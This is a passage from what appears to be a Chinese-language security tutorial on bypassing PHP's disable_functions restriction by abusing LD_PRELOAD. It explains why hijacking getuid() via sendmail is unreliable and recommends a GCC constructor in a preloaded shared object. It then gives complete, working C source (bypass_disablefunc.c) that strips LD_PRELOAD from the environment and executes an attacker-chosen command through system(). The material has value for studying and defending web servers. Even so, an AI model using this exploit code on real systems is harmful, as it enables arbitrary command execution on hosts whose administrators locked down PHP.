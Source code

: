 **流程:**

```php
putenv() -> LD_PRELOAD(evil.so) -> EVIL_CMDLINE=command -> mail() -> sendmail() -> getuid() -> evil.so -> system() > /tmp/output
```

### 劫持启动进程

**劫持 `getuid()` 的缺陷：**

1. Linux 未安装或启用 sendmail.

2. 由于未将主机名添加进 hosts 中，导致每次运行 sendmail 都要耗时半分钟等待域名解析超时返回，www-data 也无法将主机名加入 hosts.

回到 `LD_PRELOAD` 本身，系统通过它预先加载共享对象，如果能找到一个方式，在加载时就执行代码，而不用考虑劫持某一系统函数，那我就完全可以不依赖 sendmail 了。这种场景与 C++ 的构造函数简直神似！

GCC 有个 C 语言扩展修饰符 `__attribute__((constructor))`，可以让由它修饰的函数在 main() 之前执行，若它出现在共享对象中时，那么一旦共享对象被系统加载，立即将执行 `__attribute__((constructor))` 修饰的函数。这一细节非常重要，很多朋友用 LD_PRELOAD 手法突破 disable_functions 无法做到百分百成功，正因为这个原因，不要局限于仅劫持某一函数，而应考虑拦劫启动进程这一行为。

此外，通过 LD_PRELOAD 劫持了启动进程的行为，劫持后又启动了另外的新进程，若不在新进程启动前取消 LD_PRELOAD，则将陷入无限循环，所以必须得删除环境变量 LD_PRELOAD。最直观的做法是调用 `unsetenv("LD_PRELOAD")`，这在大部份 linux 发行套件上的确可行，但在 centos 上却无效，究其原因，centos 自己也 hook 了 unsetenv()，在其内部启动了其他进程，根本来不及删除 LD_PRELOAD 就又被劫持，导致无限循环。所以，需要找一种比 unsetenv() 更直接的删除环境变量的方式。是它，全局变量 `extern char** environ`！实际上，`unsetenv()` 就是对 `environ` 的简单封装实现的环境变量删除功能。

**攻击利用:**

bypass_disablefunc.c:

```c++
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>


extern char** environ;

__attribute__ ((__constructor__)) void preload (void)
{
    // get command line options and arg
    const char* cmdline = getenv("EVIL_CMDLINE");

    // unset environment variable LD_PRELOAD.
    // unsetenv("LD_PRELOAD") no effect on some 
    // distribution (e.g., centos), I need crafty trick.
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }

    // executive command
    system(cmdline);
}
```
